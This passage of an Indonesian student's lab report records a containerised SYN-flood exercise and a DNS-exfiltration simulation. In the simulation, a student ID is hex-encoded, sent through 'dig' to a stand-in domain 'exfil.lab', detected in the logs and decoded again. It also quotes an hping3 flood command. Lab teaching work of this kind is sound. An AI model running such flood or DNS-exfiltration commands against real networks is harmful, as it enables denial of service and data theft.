

### 6. Membersihkan Container

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# docker compose -p k5 -f /root/UTS-Network-Security/repository/UTS-Network-Security/01-sumber-lab/b/b3-syn-flood/docker-compose.yml down -v
[+] Running 3/3
 ✔ Container k5-target-1    Removed                                                 0.3s
 ✔ Container k5-attacker-1  Removed                                                10.4s
 ✔ Network k5_lab           Removed                                                 0.1s

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```



### Kesimpulan

- Perintah `hping3 -S -p 80 --flood target` digunakan untuk mengirim paket TCP SYN ke port 80 secara terus-menerus selama 15 detik.
- Pemeriksaan `SYN_RECV` sebelum dan setelah serangan sama-sama menghasilkan `0`. Artinya, hasil pemeriksaan tidak menunjukkan peningkatan koneksi setengah terbuka.
- `tcpdump` menangkap 12 paket. Terlihat urutan SYN (`[S]`), SYN-ACK (`[S.]`), dan ACK (`[.]`), yang merupakan proses three-way handshake TCP.
- Target memberikan respons `HTTP/1.1 200 OK`, yang menunjukkan permintaan HTTP berhasil dilayani.

Simulasi perintah SYN Flood berhasil dijalankan dan lalu lintas TCP berhasil diamati menggunakan tcpdump. Namun, nilai `SYN_RECV` tetap `0`, sehingga bukti yang diperoleh tidak menunjukkan peningkatan koneksi half-open. Output tcpdump memperlihatkan koneksi TCP normal yang berhasil terbentuk dan respons HTTP `200 OK`.

---

# TUGAS 7 — DNS EXFILTRATION

### Tujuan

Melakukan simulasi DNS Exfiltration dengan mengirimkan data NIM melalui DNS query menggunakan encoding hexadecimal, kemudian menganalisis log DNS dan mengembalikan data ke bentuk semula.

### Perintah
### 1. Menjalankan Container DNS Exfiltration

Perintah:

```bash
docker compose -p k5 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml up -d
```

Output:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# docker compose -p k5 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml up -d
[+] Running 3/3
 ✔ Network k5_lab           Created                                                 0.0s
 ✔ Container k5-attacker-1  Started                                                 0.5s
 ✔ Container k5-dns-1       Started                                                 0.5s

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```



### 2. Encoding NIM ke Hexadecimal

Perintah:

```bash
echo -n 24552011357 | xxd -p
```

Output:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# echo -n 24552011357 | xxd -p
3234353532303131333537

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```

<br>

NIM `24552011357` berhasil dikonversi menjadi hexadecimal:

`3234353532303131333537`

Encoding ini digunakan untuk merepresentasikan data NIM sebagai bagian dari nama domain DNS.



### 3. Mengirim DNS Query

Perintah:

```bash
docker compose -p k5 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131333537.k5.exfil.lab @dns
```

Output:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# docker compose -p k5 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131333537.k5.exfil.lab @dns
10.0.0.99

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```

Analisis:

DNS query berhasil dikirim ke server DNS dengan nama domain yang memuat data hexadecimal NIM. Server DNS memberikan respons `10.0.0.99`.



### 4. Mengambil dan Menganalisis DNS Log

Perintah untuk menyimpan log:

```bash
docker compose -p k5 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml logs dns > dns-k5.log
```

Output:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# docker compose -p k5 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml logs dns > dns-k5.log

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```

Perintah analisis:

```bash
python3 01-sumber-lab/kasus/k9-dns-detect/analisis_dns.py dns-k5.log
```

Output:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# python3 01-sumber-lab/kasus/k9-dns-detect/analisis_dns.py dns-k5.log
Jumlah query per domain induk:
  exfil.lab: 1

Query mencurigakan (label panjang berisi hex):

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```

Analisis:

Hasil analisis menunjukkan terdapat satu query ke domain induk `exfil.lab`.

Bagian `Query mencurigakan (label panjang berisi hex)` tidak menampilkan entri. Artinya, script tidak melaporkan label mencurigakan secara eksplisit pada hasil tersebut. Meskipun demikian, query DNS yang memuat data hexadecimal berhasil dikirim pada langkah sebelumnya.



### 5. Decoding Hexadecimal

Perintah:

```bash
echo 3234353532303131333537 | xxd -r -p
```

Output:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# echo 3234353532303131333537 | xxd -r -p
24552011357                                                                              
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```

Analisis:

Data hexadecimal berhasil dikembalikan menjadi teks asli, yaitu NIM `24552011357`. Hasilnya sesuai dengan data NIM sebelum proses encoding.



### 6. Cleanup

Perintah:

```bash
docker compose -p k5 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml down -v
```

Output:

```text
root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security# docker compose -p k5 -f 01-sumber-lab/b/b4-dns-exfil/docker-compose.yml down -v
[+] Running 3/3
 ✔ Container k5-dns-1       Removed                                                 0.3s
 ✔ Container k5-attacker-1  Removed                                                10.3s
 ✔ Network k5_lab           Removed                                                 0.2s

root@pwned-exphr:~/UTS-Network-Security/repository/UTS-Network-Security#
```

Analisis:

Seluruh container dan network yang digunakan dalam simulasi berhasil dihapus.



### Kesimpulan

Simulasi DNS Exfiltration berhasil dilakukan dengan mengirimkan NIM melalui DNS query dalam bentuk hexadecimal.

Hasil pengujian menunjukkan:

1. NIM berhasil dikonversi menjadi hexadecimal.
2. DNS query berhasil dikirim menggunakan domain `k5.exfil.lab`.
3. Server DNS memberikan respons `10.0.0.99`.
4. DNS log mencatat satu query ke domain induk `exfil.lab`.
5. Data hexadecimal berhasil didecode kembali menjadi NIM asli.

DNS Exfiltration merupakan teknik penyelundupan data melalui protokol DNS. Data dapat disisipkan pada subdomain dalam DNS query sehingga lalu lintas DNS yang terlihat normal dapat digunakan untuk membawa informasi keluar dari suatu jaringan.
